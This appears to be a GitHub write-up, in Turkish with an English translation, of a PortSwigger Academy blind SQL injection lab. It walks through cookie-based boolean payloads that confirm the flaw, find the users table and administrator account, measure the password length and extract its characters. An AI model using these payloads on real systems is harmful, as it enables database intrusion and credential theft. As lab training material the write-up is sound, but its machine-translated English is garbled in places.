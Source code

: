 # BlindSQLi
Portswigger -> Web Security Academy -> SQL Injection -> Blind

->Portswigger platformu; içerisinde bulunan Web Security ve daha bir çok alandaki eğitimlere ücretsiz erişim hakkı tanımaktadır.

->Bunun yanında üretmiş oldukları çok fonksiyonlu BurpSuit aracının sektör açısından önemi yadsınamaz.

->Bu proje Portswigger -> Web Security Academy -> SQL Injection -> Blind -> Lab11 için çözüm adımlarını içermektedir.

->BurpSuit'in Community Edition sürümü kullanılmıştır.

_________________________________________________________________________________________________________________________________

# BlindSQLi

Portswigger -> Web Security Academy -> SQL Injection -> Blind

->Portswigger platform; Free access to trainings in Web Security and many other areas is provided.

->In addition, it is undeniable to demonstrate the performance of the multifunctional BurpSuit vehicles that I have produced.

->This project contains the solution steps for Portswigger -> Web Security Academy -> SQL Injection -> Blind -> Lab11.

->Community Edition of BurpSuit is used.




                                <---Portswigger -> Web Security Academy -> SQL Injection -> Blind -> Lab11--->
                                ______________________________________________________________________________
                                
 
Blind SQLi

Zaafiyet Parametresi - Cookie

Hedefler:

1-) Admin şifresini numaralandır.

2-) Admin olarak giriş yap.

Öncelikle bir zaafiyetin tespiti ardından sömürülmesi gerektiğini biliyoruz. Bu sebeple ilk adımımız zaafiyet bulunduğu belirtilen Cookie üzerinden doğru/yanlış sorgular yaparak zaafiyetin varlığından emin olmamız gerekmekte.
Çözüm boyunca "Welcome back" sonucu aldığımız her sorgulama doğrulama yapmış olduğumuz anlamına gelmektedir. Eğer Response alanında bu veriyi göremiyorsak ya yaptığımız uygulamada yanlışlık vardır ya da olumsuz dönüş alıyoruzdur.
_______________________________________________________________________________________________________________________________________________________________________

Analiz:

1-) Zaafiyetin doğru olup olmadığının kontrolü.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl'

-> Eğer bu işlem işe yararsa -> dönüş doğru olacak -> Welcome back message

-> Eğer bu işlem işe yaramazsa -> dönüş olmayacak -> No Welcome back message

Sql tarafında çalıştırıldığını tahmin edebileceğimiz sorguları hayal etmemiz ve deneme yanılma yolu ile doğruluğunu tespit etmemiz gerekli.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and 1=0--'

->Yanlış -> No Welcome back

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and 1=1--'

-> Doğru -> Welcome back


_______________________________________________________________________________________________________________________________________________________________________


2-) Bir Kullanıcı Tablosu Olup Olmadığını Kontrol Et

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select 'x' from users LIMIT 1)='x'--'

-> users tablosu databasede mevcut.

_______________________________________________________________________________________________________________________________________________________________________


3-) Admin kullancısının Users tablosunda olup olmadığını kontrol et.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select username from users where username='administrator')='administrator'--'

-> Admin kullanıcısı databasedeki users tablosunda mevcut.

_______________________________________________________________________________________________________________________________________________________________________


4-) Admin şifresinin numaralandır.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select password from users where username='administrator')='Welcome2021!'--'

-> Kaba kuvvet saldırı gibi olduğundan mantıklı bir sorgu olmayıp istediğimiz sonucu vermeyecektir.

*Öncelikle password uzunluğunu bulmamız lazım.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select username from users where username='administrator' and LENGTH (password)>20)='administrator'--' 

///->20 değerine kadar denemeler yapılabilir ancak

BurpSuit yardımı ile de kolaylıkla bulunması mümkün.

->Şifre uzunluğu 20 karakter.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select substring(password,2,1) from users where username='administrator')='a'--'

123456789 10 11 12 13 14 15 16 17 18 19 20

a1g2k2v3f  j  r  a  w  y  z  y  6  t  l  9


***********************************************************************************************************************************************************************


Goals:

1-) Number the admin password.

2-) Login as admin.

We know that first of all, a vulnerability must be detected and then exploited. For this reason, our first step is to make sure that the vulnerability exists by making correct/false queries on the Cookie, which is stated to be vulnerable.
Every query we get a "Welcome back" result throughout the solution means that we have verified. If we cannot see this data in the Response field, either there is an error in our application or we receive a negative response.

_______________________________________________________________________________________________________________________________________________________________________

Analysis:

1-) Checking whether the vulnerability is correct.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl'

-> If this works -> return will be correct -> Welcome back message

-> If this doesn't work -> no return -> No Welcome back message

We need to imagine the queries that we can guess to be run on the SQL side and determine their accuracy by trial and error.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and 1=0--'

->False -> No Welcome back

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and 1=1--'

-> Correct -> Welcome back

_______________________________________________________________________________________________________________________________________________________________________


2-) Check if there is a User Table

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select 'x' from users LIMIT 1)='x'--'

-> users table exists in database.

_______________________________________________________________________________________________________________________________________________________________________


3-) Check if the Admin user is in the Users table.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select username from users where username='administrator')='administrator'--'

-> The admin user exists in the users table in the database.

_______________________________________________________________________________________________________________________________________________________________________


4-) Number of the admin password.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select password from users where username='administrator')='Welcome2021!'--'

-> Since it is like a brute force attack, it is not a logical query and will not give the result we want.

*First we need to find the password length.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select username from users where username='administrator' and LENGTH (password)>20)='administrator'--' 

///-> Attempts up to 20 can be done but It can be easily found with the help of BurpSuit.

->Password length 20 characters.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select substring(password,2,1) from users where username='administrator')='a'--'

123456789 10 11 12 13 14 15 16 17 18 19 20

a1g2k2v3f  j  r  a  w  y  z  y  6  t  l  9

